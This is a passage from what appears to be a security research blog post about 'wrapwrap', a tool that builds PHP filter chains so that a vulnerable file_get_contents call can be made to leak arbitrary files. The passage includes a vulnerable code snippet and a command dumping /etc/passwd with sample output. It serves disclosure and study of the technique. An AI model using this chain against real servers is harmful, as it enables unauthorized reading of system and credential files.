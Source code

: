 We get: `U0VWQULTQ0TV`, which decodes to `SEVAB�CD�`. If we base64-decode and encode, we get `SEVABCD`.

We can now **add a suffix of arbitrary size**!

# Using wrapwrap

Say you have code like so:

```plain
$data = file_get_contents($_POST['url']);
$data = json_decode($data);
echo $data->message;
```

To obtain the contents of some file, we'd like to have: `{"message":"<file contents>"}`. This can be done using:

```plain
$ ./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
[*] Dumping 1008 bytes from /etc/passwd.
[+] Wrote filter chain to chain.txt (size=705031).
```

This yields:

```plain
{"message":"root:x:0:0:root:/root:/bin/bash=0Adaemon:..."}
```

# Conclusion

This is another improvement on the PHP filter attacks: we can now add a prefix **and a suffix** to any resource. Beware of the size of your payload, however: it gets pretty big, pretty fast. Dumping *3300* bytes from a file require a payload of 2 megabytes. Luckily, it should not be too much of a problem if the controlled URL is sent through POST.

We deliberately left lots of details and optimisations out of the blog post to keep it concise. Don't hesitate to read the code of *wrapwrap* if you want to know how it really works, and help improve it.

The [GitHub repository is here](https://github.com/ambionics/wrapwrap).

# We're hiring!

Ambionics is an entity of [Lexfo](https://www.lexfo.fr/), and we're hiring! To learn more about job opportunities, do not hesitate to contact us at [rh@lexfo.fr](mailto:rh@lexfo.fr). *We're a french-speaking company, so we expect candidates to be fluent in our beautiful language.*
